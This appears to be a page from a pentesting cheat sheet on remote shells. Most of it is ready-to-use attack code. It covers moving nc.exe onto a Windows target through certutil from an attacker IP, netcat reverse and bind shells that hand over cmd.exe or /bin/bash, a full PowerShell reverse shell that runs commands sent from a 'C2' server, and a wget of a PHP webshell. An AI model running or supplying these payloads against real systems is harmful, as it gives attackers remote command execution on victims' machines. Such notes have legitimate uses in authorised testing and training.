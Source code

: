 # Shells

## NetCat

> Windows Binaries in Linux: _/usr/share/windows-binaries/_

#### trasfering nc.exe

```bash
# Transfer nc.exe binaries to windows target machine: 

# exec in Attack machine 
cp /usr/share/windows-binaries/nc.exe .
python -m SimpleHTTPServer 80

# exec in Windows target machine
certutil -urlcache -f http://ATTACK_IP/nc.exe

# Listener port on attack machine: 

# exec in Attack machine
nc -lnvp PORT

# Connect from Windows Target to Linux Attack machine

# exec in Windows target machine
nc.exe -nv ATTACK_IP ATTACK_OPEN_PORT
```

#### Send files via NC

```bash
# Recipient Machine: (Windows)
nc.exe -nvlp PORT > file.txt

# Sender Machine: (Linux)
nc -nv REC_IP REC_PORT < file.txt
```

***

## Reverse Shell

A reverse shell is a type of remote shell where the target connect directly to a listener on the attacker's system.

{% embed url="https://www.revshells.com/" %}



### PS1 rev shell

{% embed url="https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1" %}

<details>

<summary>payload</summary>

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('127.0.0.2', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close
```

</details>

### PHP Shells

#### wwwolf-php-webshell

{% embed url="https://github.com/WhiteWinterWolf/wwwolf-php-webshell" %}

{% code title="Download the shell locally" overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/refs/heads/master/webshell.php 
```
{% endcode %}



### Windows Target

[#nc.exe-file-transfer](./#nc.exe-file-transfer "mention")

```bash
#Attacker Machine (Linux)
nc -lvnp PORT

# transfer the nc.exe file into the target machine

#Target Machine (Windows)
nc.exe -nv ATTACK_IP ATTACK_PORT -e cmd.exe

# Powershell
powershell -e "<PAYLOAD>"
```

### Linux Target

```bash
#Attacker Machine (Linux)
nc -lnvp PORT

#Target Machine (Linux)
nc -nv ATTACKER_IP ATTACKER_PORT -e /bin/bash
```

***

## Bind Shell

A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system.

### Windows Target

```bash
#Target Machine (Windows)
nc.exe -nvlp PORT -e cmd.exe

#Attack machine (Linux)
nc -nv TARGET_IP TARGET_PORT
```

### Linux Target

```bash
#Target Machine (Linux)
nc -nvlp PORT -c /bin/bash

#Attack Machine (Windows)
nc.exe -nv TARGET_IP TARGET_PORT
# Attack Machine (Linux)
mc -nv TARGET_IP TARGET_PORT
```



##





